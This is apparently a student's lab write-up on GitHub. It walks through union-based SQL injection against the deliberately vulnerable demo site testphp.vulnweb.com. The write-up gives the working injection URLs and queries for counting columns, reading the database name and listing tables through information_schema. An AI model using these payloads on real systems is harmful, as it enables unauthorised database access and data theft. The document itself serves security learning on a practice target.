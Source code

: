 # First Injection and Exploring

To start, the lab's first step is to analyze what happens if you tried an injection like this.
```
http://testphp.vulnweb.com/artists.php?artist=1
```
So before I did the injection, I looked over what information is publicly out in the site just so I can tell any differences after injecting. <br />

So then first tried the commands on the second link from my resources.<br />
I added a ‘ <br />

Result: 
![image](https://github.com/user-attachments/assets/ab533ff6-7043-4fb4-9a2e-8a18aee6ef13)

Then I did: 
```
ORDER BY 1.
```
I did notice that the space in the URL translates to %20 but the site just went back to normal. <br />
![image](https://github.com/user-attachments/assets/96dd693d-4e1f-4868-bb68-4db854ee4c30)  <br />


removing the space result to an error again.<br />
![image](https://github.com/user-attachments/assets/c61e8fc5-c1f2-4926-bbbb-0cd2cf0ab335) <br />


kept doing ORDER BY, ‘til it errored on 4. So there’s only 4 columns on this table, the artists table.<br />
![image](https://github.com/user-attachments/assets/89245b7d-3fa1-4791-9e49-f8fd5743a812)

Then did <br />
```
union select 1,2,3
```
Which nothing showed up.<br />
![image](https://github.com/user-attachments/assets/34a255aa-c42f-4d73-aeb9-16bf52baf154)<br />

I changed artist=1 to a -1. <br />
This time it showed some numbers. It could mean two artists in a table or it’s the second field name. <br />
I am unsure yet. I moved on to the next steps.<br />
![image](https://github.com/user-attachments/assets/df809abf-ac27-476e-9d6b-79e67d2258d3)<br />

Getting the database name. 
```
http://testphp.vulnweb.com/artists.php?artist=-1%20union%20select%201,database(),3
```
![image](https://github.com/user-attachments/assets/099f5e37-97b0-48ca-ad27-4377dcb009ab) <br />


I tried to look for any tables in the database: 
```
http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 0,1 
```
![image](https://github.com/user-attachments/assets/ce3fa655-dcab-4ded-9df1-65f222f5de95)<br />


Now, it showed a name “artists”. Assuming that’s the table name. and the artist is one of the field names.<br />

Then I changed limit 0,1 to 1,1 and continued changing it. <br />
```
union select 1,table_name,3 
from information_schema.tables 
where table_schema=database() limit 1,1 
```
table carts<br />
![image](https://github.com/user-attachments/assets/43b6052f-5d07-4eac-a9f7-7bc197fb59d1) <br /><br />

2,1 categ<br />
Table categ<br />
![image](https://github.com/user-attachments/assets/edb23b86-91cb-4838-9832-6331582f4b80) <br />

Then I jumped higher jumped higher. 5,1 pictures<br />
![image](https://github.com/user-attachments/assets/aab16d22-1624-4536-ae47-41c5c21b5c36)<br /><br />

9,1 was blank to I went back, 8,1 I also blank. So went further back to 7,1 which showed users. <br />
![image](https://github.com/user-attachments/assets/bd35f7db-328d-4253-bf98-38ffa8ea52a2)<br />
![image](https://github.com/user-attachments/assets/2500bf9c-b948-4c13-b7fb-48df18f86f7f)<br />

<b> So that concludes there are 8 tables.<br />
starting from 0,1-7,1.<br />
</b>

>[!NOTE]
> Next, [Breaking more queries](https://github.com/cherryot02/SQL-Injections/blob/main/Breaking-More-Queries.md)!





